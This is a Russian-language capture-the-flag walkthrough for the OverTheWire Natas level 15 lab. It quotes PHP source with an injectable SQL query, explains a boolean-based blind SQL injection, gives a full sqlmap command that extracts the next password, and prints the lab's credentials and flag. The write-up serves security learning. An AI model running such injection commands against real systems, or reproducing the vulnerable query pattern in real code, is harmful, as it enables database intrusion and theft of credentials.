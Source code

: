 # NATAS_15 WriteUp
:computer: Host: http://natas15.natas.labs.overthewire.org/  
:bust_in_silhouette: Usename: natas15  
:key: Password: TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB

:triangular_flag_on_post: Flag: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
 
- [NATAS\_15 WriteUp](#natas_15-writeup)
  - [Обзор веб-приложения](#обзор-веб-приложения)
  - [Решение](#решение)

## Обзор веб-приложения
<a name="Обзор_веб-приложения"></a> 
Веб-приложение выглядит следующим образом
![Скриншот веб-приложения](./img/natas15/natas15_0.png)

Ввод слова **test** возвращает вот такую реакцию
![Скриншот веб-приложения](./img/natas15/natas15_1.png)

Кнопка <kbd>**View sourcecode**</kbd> позволяет просмотреть исходный код страницы
```php
// HTML Code ...
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
// HTML Code ...
```

## Решение
<a name="Решение"></a>
В исходном коде видим как устроен запрос
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```

А так же видим каким образом результат выполнения этого запроса учитывается веб-приложением
```php
$res = mysqli_query($link, $query);
if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
```

Здесь прям напрашивается boolean-based SQL инъекция

Пробуем вызвать каждое из этих двух состояний
![True statement](./img/natas15/natas15_2.png)
![False statement](./img/natas15/natas15_3.png)

После подтверждения наличия boolean-based SQL инъекции можно доверить брутфорс автоматике  
Ключ запуска **sqlmap** таков 
```bash
sqlmap -u http://natas15.natas.labs.overthewire.org/ --data="username=natas16" --auth-type Basic --auth-cred natas15:TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB --technique=B --dbms mysql --level 5 --risk 3 --string "This user exists" --batch --threads 10
```

![Флаг](./img/natas15/natas15_4.png)

Полученный флаг: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
